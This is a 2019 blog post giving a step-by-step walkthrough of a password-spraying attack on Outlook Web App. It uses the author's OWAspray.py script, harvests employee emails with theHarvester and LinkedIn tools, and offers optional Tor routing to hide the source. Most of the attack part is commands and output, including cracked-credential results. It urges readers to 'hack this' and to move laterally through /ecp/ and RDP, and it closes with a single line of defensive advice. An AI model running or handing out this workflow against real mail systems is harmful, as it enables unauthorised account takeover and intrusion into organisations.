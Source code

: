 ```yaml
---
layout: post
title:  "Reverse brute force attack (or just Password Spraying) using OWAspray.py"
date:   2019-06-02 01:00:00 -0400
keywords: "python, OSINT, tools, owa"
comments: true
description: "How to use OWAspray.py to hack into Outlook Web App?"
---
```


Weak passwords are still a thing. I've been worried about this for a while. Weak passwords aren't new and we should pay attention to this since a malicious person can go further from a compromised account. In only 5 minutes anybody can access to a network and move laterally once inside. As a Proof of Concept I published a simple Python script called [OWAspray.py](https://github.com/davidtavarez/owaspray) to test the top 10 worst passwords we possibly could find.

First, we're going to collect some emails using [theHarvester](https://github.com/laramies/theHarvester); theHarvester is a very simple, yet effective tool designed to be used in the early stages of a penetration test. Use it for open source intelligence gathering and determine a company's external threat landscape on the internet. Let's install it:

```bash
$ git clone https://github.com/laramies/theHarvester.git
$ cd theHarvester
$ virtualenv -p python3 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
```

Good. Now, let's find some info:

```bash
$ python theHarvester.py -d DOMAIN -b all -l 200
...
[*] Emails found: X
----------------------
...
FIRSTNAMELASTNAME@DOMAIN
FIRSTNAMELASTNAME@DOMAIN
...
[*] Hosts found: Y
---------------------
...
mail.DOMAIN:IP
...
```

We'll see a lot of information but right now we only want to collect the emails and the URL of the Outlook Web Application. In this case we have the next pattern: `FIRSTNAME+LASTNAME@DOMAIN`. Cool, now we can go to LinkedIn or their website to get more usernames. This tool looks pretty good [linkedin2username](https://github.com/initstring/linkedin2username), you can try it; I will be (probably) writing some script for this later. Now we have the email pattern we can write a list of usernames to test.

Let's the magic begin...

## OWAspray.py

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. These attacks have become one of the favorite technique of attackers, as it has proved to be very effective for advancing through a network after having established a foothold inside. I wrote a script to test this, let's try it:

```bash
$ git clone https://github.com/davidtavarez/owaspray
$ cd owaspray
$ virtualenv -p python2.7 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ python spray.py --help

usage: spray.py [-h] -t TARGET -u USERNAME_FILE -p PASSWORD_FILE
                [--tor-host TOR_HOST] [--tor-port TOR_PORT]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL of the target.
  -u USERNAME_FILE, --username_file USERNAME_FILE
                        The list of users.
  -p PASSWORD_FILE, --password_file PASSWORD_FILE
                        The list of passwords to try.
  --tor-host TOR_HOST   Tor server.
  --tor-port TOR_PORT   Tor port server.
```

Now we can confirm the URL:

```bash
$ curl -L -I https://mail.DOMAIN/
HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Content-Length: 0
Location: https://mail.DOMAIN/owa/
...

HTTP/1.1 440 Login Timeout
Content-Length: 43
Content-Type: text/html; charset=utf-8
...
Connection: close
...
```

Good. Let's hack this!

```bash
$ python spray.py -t https://mail.DOMAIN -u users.txt -p passwords.txt
[+] FIRSTNAMELASTNAME:PASSWORD
[+] FIRSTNAMELASTNAME:PASSWORD
...
```

:)

The important question is: how far can I go from here? Well, if you got an admin account, you can move to `/ecp/` and have fun; also, find some open `RDP` will be fine I guess... what else? I don't know, ***use your creativity!***

### What should we do to protect users?

It's very simple: use better passwords, do not repeat passwords, enforce Two-Factor (2F) Authentication and create a max-attempt policy.
